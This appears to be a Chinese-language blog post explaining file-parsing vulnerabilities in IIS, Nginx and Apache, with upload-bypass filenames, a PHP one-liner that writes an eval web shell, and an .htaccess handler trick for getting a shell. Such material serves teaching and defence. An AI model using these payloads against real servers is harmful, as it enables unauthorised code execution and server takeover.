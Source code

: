 ```yaml
---
layout: post
title:  解析漏洞
date:   2018-10-19 17:23:03 +0800
img:
description: 解析漏洞
categories: web安全
---
```


* 目录
{:toc}

## IIS 5.x/6.0解析漏洞

1. 目录解析

    在网站下建立文件夹的名字为 .asp、.asa 的文件夹，其目录内的任何扩展名的文件都被IIS当作asp文件来解析并执行。

    例如创建目录 xx.asp，那么/xx.asp/xx.jpg将被当作asp文件来执行。假设攻击者可以控制上传文件夹路径，就可以不管你上传后你的图片改不改名都能拿shell了。

    /xx.asp/xx.jpg

2. 文件解析

    在IIS6.0下，分号后面的不被解析，也就是说xx.asp;.jpg会被服务器看成是xx.asp

    xx.asp;.jpg
    
    另外IIS6.0 默认的可执行文件除了asp还包含这三种:

    /shell.asa

    /shell.cer

    /shell.cdx

## IIS 7.0/IIS 7.5/ Nginx <8.03畸形解析漏洞

在默认Fast-CGI开启状况下,上传一个名字为xx.jpg，内容为
`<?PHP fputs(fopen(‘shell.php’,’w’),'<?php eval($_POST[cmd])?>’);?>`
的文件，然后访问xx.jpg/.php,在这个目录下就会生成一句话木马 shell.php

## Nginx <8.03 空字节代码执行漏洞

影响版本:0.5.,0.6., 0.7 <= 0.7.65, 0.8 <= 0.8.37

Nginx在图片中嵌入PHP代码然后通过访问

xxx.jpg%00.php

来执行其中的代码

## Apache解析漏洞

Apache 是从右到左开始判断解析,如果为不可识别解析,就再往左判断.

比如 shell.php.a.rar “.a”和”.rar” 这两种后缀是apache不可识别解析,apache就会把shell.php.a.rar解析成php

## 其他

在windows环境下，xx.jpg[空格] 或xx.jpg. 这两类文件都是不允许存在的，若这样命名，windows会默认除去空格或点，利用windows的这种特性，通过抓包在文件名后加一个空格或者点绕过黑名单.若上传成功，空格和点都会被windows自动消除,这样也可以getshell。

如果在Apache中.htaccess可被执行.且可被上传.那可以尝试在.htaccess中写入:

`<FilesMatch "shell.jpg"> SetHandler application/x-httpd-php </FilesMatch>`

然后再上传shell.jpg的木马, 这样shell.jpg就可解析为php文件